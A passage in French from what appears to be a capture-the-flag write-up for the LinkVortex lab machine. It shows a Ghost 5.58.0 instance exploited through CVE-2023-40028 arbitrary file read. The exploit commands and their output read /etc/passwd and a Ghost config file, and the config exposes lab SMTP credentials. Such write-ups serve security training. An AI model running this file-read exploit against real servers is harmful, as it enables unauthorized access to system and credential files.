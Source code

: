 Cependant, dans le fichier `Dockerfile.ghost`, on trouve la version de Ghost : 5.58.0, qui est vulnérable à la [CVE-2023-40028](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-40028).\
Cette vulnérabilité nous permet de lire un fichier arbitraire.
{{< highlight go "hl_lines=1" >}}
$ cat Dockerfile.ghost         
FROM ghost:5.58.0
<...>
{{< /highlight >}}

On peut tester l'exploit suivant:[CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) pour lire le fichier  /etc/passwd.

{{< highlight go "hl_lines=1" >}}
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<...>
{{< /highlight >}}

Quel autre fichier intéressant peut-on lire ? En regardant à nouveau le fichier `Dockerfile.ghost`, on trouve le chemin d’un fichier de configuration: `/var/lib/ghost/config.production.json`.

{{< highlight go "hl_lines=1" >}}
$ cat Dockerfile.ghost         
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
<...>
{{< /highlight >}}

La lecture de ce fichier nous donne les identifiants de l'utilisateur `bob`.

{{< highlight go "hl_lines=1 13 14" >}}
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
<...>
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
{{< /highlight >}}
